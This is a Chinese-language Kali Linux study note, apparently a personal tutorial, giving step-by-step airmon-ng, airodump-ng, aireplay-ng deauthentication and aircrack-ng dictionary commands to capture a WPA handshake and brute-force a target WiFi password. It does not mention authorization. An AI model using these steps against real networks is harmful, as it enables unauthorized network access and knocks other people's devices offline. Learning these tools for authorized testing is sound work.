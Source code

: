 ```yaml
---
title: Kali-Linux学习笔记
description: 总结一下
date: '2020-10-11T19:42:21.000Z'
---
```


# Kali-Linux系统学习记录

> Kali-Linux学习笔记

## 无线wifi密码-暴力破解

### 工具

* 外部设备：无线网卡
* 操作系统：Kali-Linux-2020.3-vmware-amd64

## 步骤

1. 插入“无线网卡”

![](../.gitbook/assets/2020-10-11-20-22-20.png)

![](../.gitbook/assets/2020-10-11-19-58-25.png)

1. 输入`iwconfig` 查看是否存在 `wlan0`
2. 开启监听 `sudo airmon-ng start wlan0`
3. 扫描附近的`wifi`，确定目标`wifi`的MAC地址`BSSID`及频道号`CH`
4. 监听目标wifi，尝试捕获目标wifi的握手包，输入`sudo airodump-ng wlan0mon -c <步骤4的CH> --bssid <步骤4的BSSID> -w <握手包存放位置，例如：~/Documents/wlan/wlan0mon>`，如同，取得已经与目标wifi建立连接的设备的`BSSID`及`STATION`

![](../.gitbook/assets/2020-10-11-21-36-11.png)

1. 由于握手包是设备和wifi之间建立连接时所产生的，因此需要对已经建立与目标wifi连接的设备进行断网攻击（aireplay-ng -0），保留步骤4的终端，打开新终端进行断网攻击，输入：`sudo aireplay-ng -0 <攻击次数，例如：20> -a <步骤4取得的目标WiFi的BSSID> -c <步骤5取得的与目标wifi建立连接的某设备BSSID> wlan0mon`，如图，在最后两次攻击时，目标设置已经与目标wiif断开连接

![](../.gitbook/assets/2020-10-11-21-54-21.png)

1. 等待步骤6的目标设备与目标wifi重新建立连接，其后，回到步骤5的终端，可以看到已经抓取到了握手包

![](../.gitbook/assets/2020-10-11-21-59-56.png)

1. 因为已经抓取到握手包，所以无需再使用无线网卡，可以停止网卡的监听，输入：`sudo airmon-ng stop wlan0mon`
2. 握手包包含设备与wifi的建立连接的验证密钥，因此可对握手包进行暴力破解，输入：`sudo aircrack-ng -a2 -b <步骤4取得的目标WiFi的BSSID> -w <字典位置，例如：~/Documents/rockyou.txt> <握手包存放位置，若使用了步骤5的路径，则是：~/Documents/wlan/*.cap>`

![](../.gitbook/assets/2020-10-11-22-30-12.png)

## tips

* 需要使用无线网卡，最好是能兼容linux免驱动的型号
* 由于是使用暴力破解的方式，因为破解wifi密码的重点在于字典上，需要字典足够大到能包含目标wifi密码，因此需要对字典进行迭代补充

